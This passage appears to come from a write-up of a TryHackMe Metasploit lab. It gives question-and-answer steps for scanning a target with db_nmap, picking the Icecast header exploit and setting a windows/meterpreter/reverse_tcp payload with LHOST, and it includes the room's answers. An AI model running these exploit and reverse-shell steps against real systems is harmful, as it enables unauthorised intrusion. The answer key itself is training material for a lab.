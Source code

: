 - Q:```Last but not least, which module is used with buffer overflow and ROP attacks?```

	A:```NOP```

- Q:```Not every module is loaded in by default, what command can we use to load different modules?```

	A:```load```

<b>Task 5:Move that shell!</b>

- Q1:```Metasploit comes with a built-in way to run nmap and feed it's results directly into our database. Let's run that now by using the command db_nmap -sV MACHINE_IP```

	A:```No answer needed```

- Q2:```What service does nmap identify running on port 135?```

	A:```msrpc```

- Q3:```Let's go ahead and see what information we have collected in the database. Try typing the command hosts into the msfconsole now.```


	A:```No asnwer needed```

- Q4:```How about something else from the database, try the command services now.```

	A:```No answer needed```

- Q5:```One last thing, try the command vulns now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully.```

	A:```No answer needed```

- Q6:```Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type use followed by a unique string found within only the target exploit. For example, try this out now with the following command use icecast. What is the full path for our exploit that now appears on the msfconsole prompt? *This will include the exploit section at the start```

	A:```exploit/windows/http/icecast_header```

- Q7:```What is the name of the column on the far left side of the console that shows up next to 'Name'?```

	A:```#```

- Q8:```Now type the command use NUMBER_FROM_PREVIOUS_QUESTION. This is the short way to use modules returned by search results.```

	A:```No answer needed```

- Q9:```Next, let's set the payload using this command set PAYLOAD windows/meterpreter/reverse_tcp. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command set LHOST YOUR_IP_ON_TRYHACKME. You might have to check your IP using the command ip addr, it will likely be your tun0 interface.```

	A:```No answer needed```
